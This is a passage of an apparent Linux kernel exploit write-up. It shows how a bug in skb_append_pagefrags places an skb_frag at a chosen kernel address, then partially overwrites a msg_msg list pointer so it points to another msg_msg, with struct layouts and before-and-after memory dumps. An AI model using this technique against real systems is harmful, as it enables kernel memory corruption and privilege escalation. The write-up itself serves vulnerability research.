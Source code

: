 # Triggering Vulnerability

Using this vulnerability, we can insert a skb_frag on an arbitrary kernel address by the following calling path 
skb_append_pagefrags -> skb_fill_page_desc_noacc -> __skb_fill_page_desc_noacc.

```C
static inline void __skb_fill_page_desc_noacc(struct skb_shared_info *shinfo,
					      int i, struct page *page,
					      int off, int size)
{
	skb_frag_t *frag = &shinfo->frags[i];

	/*
	 * Propagate page pfmemalloc to the skb if we can. The problem is
	 * that not all callers have unique ownership of the page but rely
	 * on page_is_pfmemalloc doing the right thing(tm).
	 */
	frag->bv_page		  = page;
	frag->bv_offset		  = off;
	skb_frag_size_set(frag, size);
}

```

According to the skb_frag_t struct layout, bv_offset is more controllable and it's value is between 0 to 0xfff.
We are more interesting at value 0, because we can use choose to null first few byte of a kernel address.
In this case, `struct msg_msg` become our target object again.
```C
typedef struct bio_vec skb_frag_t;
struct bio_vec {
        struct page *              bv_page;                                              /*     0     8 */
        unsigned int               bv_len;                                               /*     8     4 */
        unsigned int               bv_offset;                                            /*    12     4 */

        /* size: 16, cachelines: 1, members: 3 */
        /* last cacheline: 16 bytes */
};
```

Let's take a look into msg_msg struct layout and a sample memory layout of msg_msgs

```C
struct msg_msg {
        struct list_head {
                struct list_head * next;                                                 /*     0     8 */
                struct list_head * prev;                                                 /*     8     8 */
        } m_list; /*     0    16 */
        long int                   m_type;                                               /*    16     8 */
        /* typedef size_t -> __kernel_size_t -> __kernel_ulong_t */ long unsigned int          m_ts; /*    24     8 */
        struct msg_msgseg *        next;                                                 /*    32     8 */
        void *                     security;                                             /*    40     8 */

        /* size: 48, cachelines: 1, members: 5 */
        /* last cacheline: 48 bytes */
};
```

```
0xffff8880082e2380:     0xffff888008705080      0xffff888007ebf680 //m_list.next m_list.prev
0xffff8880082e2390:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e23a0:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e23b0:     0x0000000000000408      0x0000000000000000 //data
0xffff8880082e23c0:     0x0000001000000000      0x0000000000000000
0xffff8880082e23d0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23e0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23f0:     0x0000000000000000      0x0000000000000000
0xffff8880082e2400:     0xffff888008705f80      0xffff888007ebf800 //m_list.next m_list.prev
0xffff8880082e2410:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e2420:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e2430:     0x0000000000000412      0x0000000000000000 //data
0xffff8880082e2440:     0x0000001000000000      0x0000000000000000
0xffff8880082e2450:     0x0000000000000000      0x0000000000000000
0xffff8880082e2460:     0x0000000000000000      0x0000000000000000
0xffff8880082e2470:     0x0000000000000000      0x0000000000000000
```

If we choose (0xffff8880082e2400+2-0x10) as our skb_frag_t, after return from function `__skb_fill_page_desc_noacc`, the above memory layout will become as follow
```
0xffff8880082e2380:     0xffff888008705080      0xffff888007ebf680 //m_list.next m_list.prev
0xffff8880082e2390:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e23a0:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e23b0:     0x0000000000000408      0x0000000000000000 //data
0xffff8880082e23c0:     0x0000001000000000      0x0000000000000000
0xffff8880082e23d0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23e0:     0x0000000000000000      0x0000000000000000
0xffff8880082e23f0:     0xea00001223400000      0x000000001000ffff
0xffff8880082e2400:     0xffff888008700000      0xffff888007ebf800 //m_list.next m_list.prev
0xffff8880082e2410:     0x000000000000008b      0x0000000000000050 //m_type m_ts
0xffff8880082e2420:     0x0000000000000000      0x0000000000000000 //next security
0xffff8880082e2430:     0x0000000000000412      0x0000000000000000 //data
0xffff8880082e2440:     0x0000001000000000      0x0000000000000000
0xffff8880082e2450:     0x0000000000000000      0x0000000000000000
0xffff8880082e2460:     0x0000000000000000      0x0000000000000000
0xffff8880082e2470:     0x0000000000000000      0x0000000000000000
```

m_list.next first two byte has been overwrite to null byte and make it point to another msg_msg.